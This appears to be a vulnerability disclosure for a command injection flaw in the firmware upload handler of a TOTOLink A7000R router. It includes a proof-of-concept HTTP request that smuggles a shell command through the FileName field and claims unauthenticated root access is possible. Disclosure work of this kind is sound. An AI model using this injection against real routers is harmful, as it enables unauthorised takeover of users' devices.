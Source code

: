 # TOTOLink A7000R V9.1.0u.6115_B20201022 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

### Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A7000R (V9.1.0u.6115_B20201022) was found to contain a command insertion vulnerability in UploadFirmwareFile.This vulnerability allows an attacker to execute arbitrary commands through the "FileName" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

`Var` is passed directly into the `dosystem` function.

![image-20220719205544791](img/image-20220719205544791.png)

The `dosystem` function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the `system` function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 76
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"FileName":";ps #","ContentLength":"1","topicurl":"UploadFirmwareFile"}
1
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
